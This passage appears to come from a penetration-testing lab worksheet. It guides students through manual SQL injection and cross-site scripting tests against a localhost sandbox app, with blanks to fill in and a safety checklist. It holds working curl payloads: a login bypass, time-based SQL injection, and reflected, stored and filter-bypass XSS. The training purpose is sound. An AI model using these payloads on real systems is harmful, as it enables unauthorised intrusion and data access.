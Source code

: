 ## ⚔️ Phase 3B: Manual Penetration Testing (90 minutes)

### 3B.1 Manual SQL Injection Validation

**Objective**: Validate and extend automated SQL injection findings through manual testing

#### Pre-Manual Testing Analysis:

- **Automated SQL Injection Findings**: **\_\_\_\_**
- **Targets for Manual Validation**: **\_\_\_\_**
- **Additional Test Cases Planned**: **\_\_\_\_**

#### Pre-Exploitation Checklist:

- [ ] Target confirmed to be in sandbox environment
- [ ] Automated findings reviewed and understood
- [ ] Exploitation method reviewed with instructor
- [ ] Documentation template ready
- [ ] Safety procedures understood

#### Manual Exploitation Attempts:

```bash
# Test basic SQL injection (validate automated findings)
curl -X POST "http://localhost:5000/login" \
  -d "username=admin' OR '1'='1&password=anything" \
  -H "Content-Type: application/x-www-form-urlencoded"

# Test advanced manual techniques (extend automated testing)
curl -X POST "http://localhost:5000/login" \
  -d "username=admin' AND (SELECT sleep(5))--&password=test" \
  -H "Content-Type: application/x-www-form-urlencoded"
```

**Manual vs Automated SQL Injection Results:**

- **Automated Detection**: ✅ Found / ❌ Missed
- **Manual Validation Success**: ✅ Confirmed / ❌ Failed
- **Additional Manual Discoveries**: **\_\_\_\_**
- **Data Accessed Manually**: **\_\_\_\_**
- **Error Messages (Manual)**: **\_\_\_\_**
- **Impact Assessment**: **\_\_\_\_**

### 3B.2 Manual Cross-Site Scripting (XSS) Testing

**Objective**: Extend automated XSS findings with advanced manual techniques

#### Manual XSS Exploitation Attempts:

```bash
# Test for reflected XSS (validate automated results)
curl "http://localhost:5000/search?q=<script>alert('XSS')</script>"

# Test for stored XSS (manual approach)
curl -X POST "http://localhost:5000/comment" \
  -d "comment=<img src=x onerror=alert('Stored XSS')>" \
  -H "Content-Type: application/x-www-form-urlencoded"

# Test filter bypass techniques (advanced manual)
curl "http://localhost:5000/search?q=<svg onload=alert('Bypass')>"
```
